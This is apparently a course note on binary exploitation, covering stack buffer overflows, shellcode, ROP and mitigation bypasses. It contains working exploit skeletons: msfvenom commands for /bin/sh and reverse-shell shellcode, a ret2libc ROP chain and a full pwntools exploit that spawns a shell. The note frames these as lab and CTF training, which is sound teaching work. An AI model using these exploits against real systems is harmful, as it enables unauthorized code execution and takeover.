


# 💣 3.3 Exploit Development Masterclass

> [!abstract] The Masterclass
> Where you stop *using* exploits and start *writing* them. This chapter is the foundation of binary exploitation: how memory and the stack work, how a **buffer overflow** hijacks execution, **shellcoding** basics, and how modern mitigations (DEP/ASLR) are bypassed with **ROP**. It's conceptual-yet-practical — the mental model behind every memory-corruption CVE, and the prerequisite for detecting exploitation in **Advanced Defenses**. **`#level/root`**

> [!danger] Authorized Red Team Simulation / Lab context
> Exploit development is done against **deliberately vulnerable practice binaries, CTF challenges, and lab targets you own** (the classic OSCP `vulnserver`, `protostar`, `pwnable.kr`). The skeletons here are educational — understanding memory corruption is what lets defenders in **Module 3.5** detect it. Never target software you aren't authorized to test.

> [!tip] Chapter Map
> **** · **** · **** · **** · ****

---

## Memory, the Stack & Registers

A running process lays memory out in regions; exploitation lives in the **stack**.



The **stack** grows *downward* and holds each function call's **stack frame**: local buffers, the saved base pointer, and — critically — the **return address** (where execution resumes when the function ends). Key registers (x86/x64):

| Register | Role |
| --- | --- |
| **ESP/RSP** | Stack pointer (top of stack) |
| **EBP/RBP** | Base pointer (frame reference) |
| **EIP/RIP** | Instruction pointer — *what executes next* (the prize) |

If attacker input can overwrite the saved **return address**, then when the function returns, the CPU jumps wherever you point it. That is the whole game.

---

## Stack-Based Buffer Overflows

A program copies user input into a fixed-size stack buffer **without a length check** (`strcpy`, `gets`, `sprintf`):
```c
// ❌ Vulnerable — no bounds check
void handle(char *in){ char buffer[64]; strcpy(buffer, in); }   // input > 64 bytes overflows
```
Send more than 64 bytes and the excess runs *past* the buffer, over the saved base pointer, and into the **return address**. The classic workflow:



1. **Fuzz** — send growing input until the program crashes.
2. **Offset** — a De Bruijn *cyclic* pattern reveals exactly how many bytes until you overwrite the return address.
3. **Control EIP** — overwrite it with a marker (`0x42424242` = `BBBB`) to confirm control.
4. **Bad characters** — some bytes (`\x00`, `\x0a`) get mangled by the input handling; identify and avoid them.
5. **Redirect** — overwrite the return address with a `JMP ESP` gadget (points at your payload on the stack) or, with mitigations on, a **ROP chain**.

---

## Shellcoding Basics

**Shellcode** is a compact blob of position-independent machine code that does something useful — classically `execve("/bin/sh")` (a shell) or a reverse-shell stager. It must avoid the **bad characters** from step 4. You rarely write it by hand:
```bash
# msfvenom generates shellcode (authorized labs) — avoid null bytes, encode if needed
msfvenom -p linux/x64/exec CMD=/bin/sh -f python -b '\x00\x0a'
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.5 LPORT=443 -f c -b '\x00'
```
In pwntools, `shellcraft` builds it for you:
```python
from pwn import *
context.arch = 'amd64'
sc = asm(shellcraft.sh())     # /bin/sh shellcode as bytes
```

---

## Modern Mitigations & ROP

Real targets enable protections that break naive shellcode injection:

| Mitigation | What it does | Bypass |
| --- | --- | --- |
| **NX / DEP** | Stack is non-executable — injected shellcode won't run | **ROP** (reuse existing executable code) |
| **ASLR** | Randomises memory addresses each run | leak an address (info-leak), or brute a fixed module |
| **Stack canary** | A random value guards the return address | leak/overwrite it exactly, or avoid overwriting it |
| **PIE** | Randomises the binary's own base | defeat with a leak |

**ROP (Return-Oriented Programming)** defeats DEP by never injecting code — instead you chain tiny snippets of *existing* executable code (**gadgets**, each ending in `ret`) to perform your goal (often: call `mprotect`/`VirtualProtect` to make the stack executable, then jump to shellcode; or directly build an `execve` call).
```python
from pwn import *
elf = ELF('./vuln')
rop = ROP(elf)
rop.call(elf.symbols['system'], [next(elf.search(b'/bin/sh'))])   # ret2libc-style chain
payload = b'A'*72 + rop.chain()
```
`ropgadget --binary ./vuln` and pwntools' `ROP()` automate gadget discovery. **ret2libc** is the simplest ROP: return into libc's `system("/bin/sh")`.

---

## Tooling — GDB & pwntools

**GDB** (with the **pwndbg**/**GEF** plugins) is the debugger; **pwntools** is the exploitation framework.
```bash
gdb ./vuln
pwndbg> run $(python3 -c 'print("A"*100)')
Program received signal SIGSEGV, Segmentation fault.
RSP  0x7fffffffe1a8 ◂— 0x4141414141414141 ('AAAAAAAA')
RIP  0x400837 ◂— ...
pwndbg> cyclic 200        # generate a pattern
pwndbg> cyclic -l 0x6161616161616166   # find the offset from a crash value
72
```
A minimal pwntools exploit ties it together:
```python
#!/usr/bin/env python3
from pwn import *
context.binary = elf = ELF('./vuln')
p = process('./vuln')                       # or remote('target', 1337) for a lab service
offset  = 72                                 # found via cyclic
jmp_rsp = next(elf.search(asm('jmp rsp')))   # or a ROP chain if NX is on
payload = flat(b'A'*offset, jmp_rsp, asm(shellcraft.sh()))
p.sendline(payload)
p.interactive()                              # drop into the shell
```
> **Why defenders care:** memory-corruption exploitation produces distinctive signals — a service process crashing repeatedly (fuzzing), a child shell spawned from a network daemon, RWX memory allocations, and ROP-like control flow. **EDR and exploit-guard** watch for exactly these, covered in **Advanced Defenses**.

---

## 🔗 Related Master Notes & Deep-Dives
- **3.1 Privilege Escalation and LOTL** — what you do after code execution
- **Programming for Security (Python for Security)** — pwntools is Python; scripting foundations
- **2.8 Vulnerability Research** — finding the vulnerable version to target
- **3.5 Advanced Defenses** — how exploitation is detected
- [[Exploitation & Root Control]] — domain hub
